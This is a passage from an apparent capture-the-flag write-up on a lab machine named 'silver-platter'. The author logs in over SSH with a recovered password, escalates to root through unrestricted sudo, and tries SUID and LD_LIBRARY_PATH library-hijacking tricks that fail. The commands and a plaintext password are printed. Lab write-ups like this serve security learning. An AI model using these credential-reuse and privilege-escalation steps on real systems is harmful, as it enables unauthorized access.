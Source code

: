 Instead, I tried the found password: `_Zd_zx7N823/` on the user _tyler_ via SSH, and _voila_ it worked!

After gaining a shell with the user _tyler_, I ran a few commands to check the privileges of this user. It appears the this user can run all commands with `sudo` privileges. Using the command `sudo su root,` I have gained _**root**_ access.

```bash
# user is in the sudo group
tyler@silver-platter~$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)


tyler@silver-platter~$ sudo -l
...
...
User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
    

tyler@silver-platter~$ sudo su root

root@silver-platter:/home/tyler# 
```

To further my learning, I decided to continue enumerating the system as the user _**tim**_, and try to find other privilege escalation vectors.

### 2. Experimenting with SUID bit

`a) /snap/core20/1974/usr/lib/openssh/ssh-keysign`

`/snap/core20/2264/usr/lib/openssh/ssh-keysign`

are found to call a file with error: `error while loading shared libraries: libcrypto.so.1.1: cannot open shared object file: No such file or directory`

Adding the file to `/tmp` after appending`/tmp` to  `$SHELL` does not work, and the directory: `/snap/core20/[1974/2264]/usr/lib/openssh/`is not writable too



**b)** `/snap/core20/2264/usr/bin/sudo: error while loading shared libraries: libsudo_util.so.0: cannot open shared object file: No such file or directory`

files looks for shared libraries at `LD_LIBRARY_PATH` env variable instead of `PATH`&#x20;

```bash
export LD_LIBRARY_PATH=/tmp:$LD_LIBRARY_PATH
```

```bash
$ ldd /snap/core20/2264/usr/bin/sudo # the other sudo bin and other bin (can't rmb) works too
/snap/core20/2264/usr/bin/sudo: error while loading shared libraries: /tmp/libsudo_util.so.0: file too short
```
